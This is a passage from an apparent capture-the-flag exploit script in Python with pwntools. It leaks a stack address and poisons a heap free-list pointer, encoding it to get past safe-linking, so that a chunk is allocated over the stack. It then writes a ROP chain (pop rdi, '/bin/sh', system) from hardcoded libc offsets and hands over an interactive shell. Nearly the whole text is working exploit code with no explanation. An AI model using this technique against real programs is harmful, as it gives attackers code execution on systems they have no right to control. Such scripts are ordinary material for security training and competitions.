create(padd(int.to_bytes(36,1,'little')), '96',b'I'*8)

view_(padd(b'\x24'))

p.recvuntil(b'I'*8)
leak_stack = u64(p.recvline().replace(b'\n',b'').ljust(8,b'\x00'))
print('leak_stack ',hex(leak_stack))

#=================OVERWRITE STACK TO ROP=================
print("Trying to fork /bin/sh")
kjer_smo = leak + 0x3a0

kje_bi_radi_bli = leak_stack -0x158
ftakni_ga_not = (kjer_smo >> 12 ^ kje_bi_radi_bli)


delete(padd(b'\x12'))
delete(padd(b'\x11'))
delete(padd(b'\x10'))

create(padd(int.to_bytes(37,1,'little')), '74',b'U'*0x28 + b'\x00'* 8 + p64(0x71)  +p64(ftakni_ga_not) )

pop_rdi_ret = libc_base +0x000000000002daa2
ret = libc_base + 0x000000000002d446
system = libc_base + 0x00000000004e320
bin_sh = libc_base + 0x1b4689


rop = p64(pop_rdi_ret)
rop += p64(bin_sh)
rop += p64(system)


create(padd(int.to_bytes(38,1,'little')), '96',b"N" *8 )
create(padd(int.to_bytes(40,1,'little')), '96',rop )
print("SUCCESS!")
print("Enjoy your shell :)")

p.interactive()

    
```
